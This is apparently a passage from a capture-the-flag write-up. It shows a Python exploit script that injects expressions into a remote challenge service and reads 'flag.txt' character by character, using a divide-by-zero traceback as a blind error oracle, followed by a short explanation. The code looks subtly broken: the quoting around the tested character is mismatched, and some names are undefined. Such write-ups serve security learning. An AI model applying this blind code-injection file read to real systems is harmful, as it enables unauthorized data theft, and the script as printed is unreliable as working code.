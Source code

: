 ```python 3
port = 8005
s = remote(host, port)
flag = ""
index = 0
changed = True
s.recvuntil('!\n')
while changed:
    changed = False
    for c in '_{}' + string.printable:
    	print("testing {}".format(flag + c))
    	command = '''1/0 if open('flag.txt','r').read({})[{}] == ''{}' else 0\n'''.format(index + 1, index, c)
    	print(command)
    	s.send(command)
    	answer = s.recvuntil("!\n")
    	if b'Traceback' in answer:
    		flag += c
    		changed = True
    		index += 1
    		break

```

```
As you can see, the code connects to the server and builds the flag by iterating
over all the printable characters and checking if the command executed raises an
error or not, the command simply checks if the character in a specific position
matches the current tested character and if so it calculates 1/0 which in python
throw an exception (believe it or not there are langauges and modules where 1/0 returns infinity)
else the command does nothing, if an error was raised then the letter is added to the flag
and the code moves to iterate over the next character in the flie, if we finished iterating over all
the characters and none of them raised a flag we can conclude that we discovered all the
flag, and we can see that the code does just that:
```
![](assets//images//timed_4.png)